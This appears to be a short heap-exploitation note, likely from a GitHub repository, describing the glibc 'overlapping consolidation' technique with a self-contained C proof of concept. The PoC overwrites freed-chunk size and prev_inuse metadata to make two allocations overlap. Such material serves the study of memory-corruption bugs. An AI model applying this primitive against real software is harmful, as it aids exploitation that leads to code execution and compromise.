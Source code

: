 ## overlapping consolidation

**Purpose:** We can have two separate chunks allocated to the same space, no need heap leak (no need to create fake main_arena)

**Require:** Have an ability to change the metadata of the allocated chunks

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

#define CHUNK_SIZE 0x420

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    long *chunk0, *chunk1, *chunk2, *chunk3, *first_consolidated_chunk, *overlapping_chunk;

    chunk0 = malloc(CHUNK_SIZE);
    chunk1 = malloc(CHUNK_SIZE);
    chunk2 = malloc(CHUNK_SIZE);
    chunk3 = malloc(0x10); // Prevent top chunk consolidation

    free(chunk0); // Put chunk0 into the unsorted bin

    /* VULN HERE */
    chunk0[-1] = 0x860; // Extend the size of chunk0 to overlap with chunk1
    chunk2[-1] = 0x430; // Remove the prev_inuse bit of chunk2
    /* VULN HERE */

    chunk2[-2] = 0x860; // Fake prev_size of chunk2
    free(chunk2); // Consolidate chunk0 and chunk2 into a big free chunk

    first_consolidated_chunk = malloc(CHUNK_SIZE); // Padding this depend on purpose
    overlapping_chunk = malloc(CHUNK_SIZE); // Should overlap with chunk1

    assert(overlapping_chunk == chunk1); // Check if we successfully overlapped chunk1

    return 0;
}
```
